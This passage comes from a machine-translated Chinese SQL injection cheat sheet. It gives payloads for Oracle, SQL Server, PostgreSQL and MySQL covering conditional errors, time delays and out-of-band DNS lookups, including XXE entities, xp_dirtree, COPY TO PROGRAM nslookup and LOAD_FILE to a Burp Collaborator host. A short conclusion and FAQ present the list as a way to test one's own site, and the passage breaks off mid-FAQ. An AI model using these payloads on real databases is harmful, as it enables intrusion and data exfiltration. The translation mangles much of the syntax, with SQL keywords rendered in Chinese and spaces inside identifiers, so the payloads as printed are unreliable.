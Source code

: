 ### 条件错误

该命令测试布尔条件。

| 甲骨文 | SELECT CASE WHEN(YOUR-CONDITION-HERE)THEN to _ char(1/0)ELSE NULL END FROM dual |
| 微软 | 选择 CASE WHEN(YOUR-CONDITION-HERE)th EN 1/0 否则空结束 |
| PostgreSQL | 选择 CASE WHEN (YOUR-CONDITION-HERE)然后转换(1/0 为文本)否则空结束 |
| MySQL 的实现 | 选择 IF(YOUR-CONDITION-HERE，(SELECT table _ name FROM information _ schema . tables)，‘a’) |

### 时间延迟

该命令在处理查询时创建了一个时间延迟。

| 甲骨文 | DBMS _ pipe . receive _ message((' a ')，10) |
| 微软 | 等待延迟‘0:0:10’ |
| PostgreSQL | 选择 pg_sleep(10) |
| MySQL 的实现 | 选择睡眠(10) |

### DNS 查找

该命令帮助您对外部域执行DNS 查找。

| 甲骨文 | 以下技术利用 XML 外部实体(XXE)漏洞来触发 DNS 查找。选择 extract value(xmltype(<？xml 版本="1.0 "编码="UTF-8 "？> <！DOCTYPE 根[ <！ENTITY % remote SYSTEM " http://YOUR-SUBDOMAIN-here . burpcollaborator . net/">% remote；] >')，'/l ')来自对偶 |
| 微软 | 执行主管..XP _ dirtree '//YOUR-SUBDOMAIN-here . burpcollaborator . net/a ' |
| PostgreSQL | 复制(选择'')到程序‘nslookup YOUR-SUBDOMAIN-here . burpcollaborator . net’ |
| MySQL 的实现 | 以下技术仅适用于 Windows:LOAD _ FILE(' \ \ \ \ YOUR-SUBDOMAIN-here . burpcollaborator . net \ \ a ')选择...INTO OUTFILE ' \ \ \ \ YOUR-SUBDOMAIN-here . burpcollaborator . net \ a ' |

## 结论

SQL 注入是非法的，但是学习如何运行所有可能的 SQL 注入攻击是测试你网站安全性的一个很好的方法。

您可以使用不同的方法来应对 SQL 注入攻击，以检查网站的完整性和安全性。因此，您需要深入了解 SQL，以便在内部实施这种攻击。这个 SQL 注入小抄将帮助你理解你可以在你的网站上测试什么类型的场景。

有兴趣了解更多关于 SQL 的知识吗？查看我们的 [最佳 SQL 教程列表](https://hackr.io/tutorials/learn-sql) ！

## 常见问题解答

#### 1。什么是 SQL 注入备忘单？

SQL 注入附带了所有必要的信息、查询和语法，将帮助您了解如何利用 SQL 数据库的漏洞。这些方法可能因版本和数据库而异。

#### 2。SQL 注入攻击的例子有哪些？

下面是一些 [SQL 注入](https://hackr.io/blog/top-sql-interview-questions#:~:text=40.%20What%20is%20SQL%20injection%3F)攻击的例子:
